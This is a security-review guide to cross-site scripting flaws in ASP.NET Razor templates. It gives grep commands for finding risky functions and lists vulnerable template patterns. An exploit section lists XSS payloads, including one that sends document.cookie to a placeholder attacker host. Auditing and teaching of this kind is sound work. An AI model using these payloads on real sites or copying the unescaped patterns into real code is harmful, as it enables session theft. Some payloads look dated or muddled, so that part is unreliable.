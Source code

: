 # .NET_Razor

🔥 Common XSS causes in .NET (Razor) 🔥

A common way to return dynamic content to the web application user is by using HTML templates. Most applications built with ASP.NET model-view-controller (MVC) framework rely on such functionality heavily because .NET offers a convenient templating engine called Razor. However, there are caveats to using some of its functions, and if the developer doesn’t know them, it is very easy to introduce an XSS or an HTML injection! 

In this post we list common ways of misusing such functionality in C#, and explain how to look for them. In HTML templates, special tags are used as placeholders to describe how the page should look. When a template is rendered, tags are replaced with the real data. Before returning the page to the user, the templating engine substitutes placeholders with real data, and escapes it so as not to break the markup. However, sometimes it is tempting to disable automatic escaping because the text returned from the database may contain HTML that the developers want to preserve. Naturally, if user-controlled data is not escaped, this leads to numerous vulnerabilities.

To find such misconfigurations:

1. Look for the @Html.Raw function usages within the Views folder:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "\\@𝙷𝚝𝚖𝚕\\.𝚁𝚊𝚠\\("
```
2. Look for the HtmlString function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝙷𝚝𝚖𝚕𝚂𝚝𝚛𝚒𝚗𝚐\("
```
3. Look for the document.write JS function usages:
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚍𝚘𝚌𝚞𝚖𝚎𝚗𝚝\.𝚠𝚛𝚒𝚝𝚎\("
```
4. Look for the API endpoints which return the "text/html" and "image/svg+xml" content-types, they can be declared as vulnerable because there is a context for a XSS: 
```
𝚐𝚛𝚎𝚙 -𝙷𝚊𝚗𝚛𝙴 "𝚝𝚎𝚡𝚝/𝚑𝚝𝚖𝚕|𝚒𝚖𝚊𝚐𝚎/𝚜𝚟𝚐+𝚡𝚖𝚕"
```
5. Check all HTML tag attributes without quotes around template attribute values. This tip will work even when HTML escaping is on! 
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=@𝚄𝚜𝚎𝚛𝙸𝚗𝚙𝚞𝚝>
```
Here Razor will HTML-encode quotes and angular brackets ('"<>), but not spaces! Since HTML is liberal about (not) using quotes in tags, in this example an attacker can easily add new attributes separated by spaces, and sometimes it is just enough for exploitation (e.g. <𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>). 

6. Look for user-controlled data that is directly concatenated into script tags, event attributes, or dynamic URLs in anchor tags, without proper escaping or validation.

```
<script>
    var searchQuery = "@Model.SearchQuery";
    // ...
</script>
<a href="/search?q=@Model.SearchQuery">Search for "@Model.SearchQuery"</a>
```

7. Check for dynamic content that is being rendered without proper encoding, such as user-controlled data in attributes or the text of the HTML element itself.

```
<div>@Model.UserInput</div>
<input type="text" value="@Model.UserInput">
```

8. Look for places where user-controlled data is being used to build dynamic JavaScript code, particularly when it is being used to build an object literal.
```
<script>
    var obj = {
        name: "@Model.UserName",
        age: @Model.UserAge
    };
    // ...
</script>
```

9. Check for places where user-controlled data is being used to build dynamic CSS code, particularly when it is being used to build a style attribute.
```
<div style="background-color: @Model.BackgroundColor;"></div>
```

10. Look for places where user-controlled data is being used to build dynamic HTML comments.
```
<!-- User's comment: @Model.UserComment -->
```

# Exploiting

- Query to exploit @Html.Raw vulnerability, if the code includes the following line:
Code example: @Html.Raw(Model.Name)
```
<script>alert('XSS attack');</script>
```
- Query to exploit HtmlString vulnerability:
Code example: @HtmlString("<img src='" + imageUrl + "'>")
```
<img src="javascript:alert('XSS attack')">
```
- Query to exploit document.write vulnerability:
Code example: <script>document.write("<p>" + userContent + "</p>");</script>
```
<script>document.write("<img src='http://attacker.com/steal-cookie.php?cookie=" + document.cookie + "'>");</script>
```
- Query to exploit "text/html" and "image/svg+xml" content-type vulnerabilities:
If the code includes an API endpoint that returns an SVG image and/or other content in that format, you can inject the code above as SVG image content and/or other content to attack.
```
<svg onload=alert('XSS attack')>
```
Query to exploit attribute value without quotes vulnerability:
<img src=@imageUrl>
```
<𝚒𝚖𝚐 𝚜𝚛𝚌=𝚡 𝚘𝚗𝚎𝚛𝚛𝚘𝚛=𝚙𝚛𝚒𝚗𝚝()>
```
